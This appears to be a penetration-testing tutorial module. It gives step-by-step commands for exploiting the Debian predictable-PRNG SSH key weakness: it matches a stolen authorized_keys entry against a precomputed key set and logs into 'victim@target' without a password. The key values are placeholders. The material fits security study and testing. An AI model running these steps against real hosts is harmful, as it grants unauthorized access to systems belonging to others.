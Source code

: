 # SSH Key Predictable PRNG (Authorized_Keys) Process
This module describes how to attempt to use an obtained authorized_keys file on a host system. 
1. Get the authorized_keys file. An example of this file would look like so:

`ssh-dss AAAA487rt384ufrgh432087fhy02nv84u7fg839247fg8743gf087b3849yb98304yb9v834ybf ... (snipped) ... `

2. Since this is an ssh-dss key, we need to add that to our local copy of `/etc/ssh/ssh_config`:

`PubkeyAcceptedKeyTypes +ssh-dss`

3. Get [g0tmi1k's debian-ssh repository](https://github.com/g0tmi1k/debian-ssh) and unpack the keys:

`git clone https://github.com/g0tmi1k/debian-ssh`

`tar vjxf debian-ssh/common_keys/debian_ssh_dsa_1024_x86.tar.bz2`

4. Grab the first 20 or 30 bytes from the key file shown above starting with the `"AAAA..."` portion and grep the unpacked keys with it as:

`grep -lr 'AAAA487rt384ufrgh432087fhy02nv84u7fg839247fg8743gf087b3849yb98304yb9v834ybf' `

Note, if there are plus symbols stop at the them as we don't want `grep` to attempt to interpret them as quantifiers (regexp).

5. IF SUCCESSFUL, this will return a file (84739yufh987fg38fg39847fg38fg3f34f.pub) public file. To use the private key file to connect, drop the '.pb' extension and do:

`ssh -vvv victim@target -i 84739yufh987fg38fg39847fg38fg3f34f`

And you should connect without requiring a password. If stuck, the `-vvv` verbosity should provide enough details as to why.
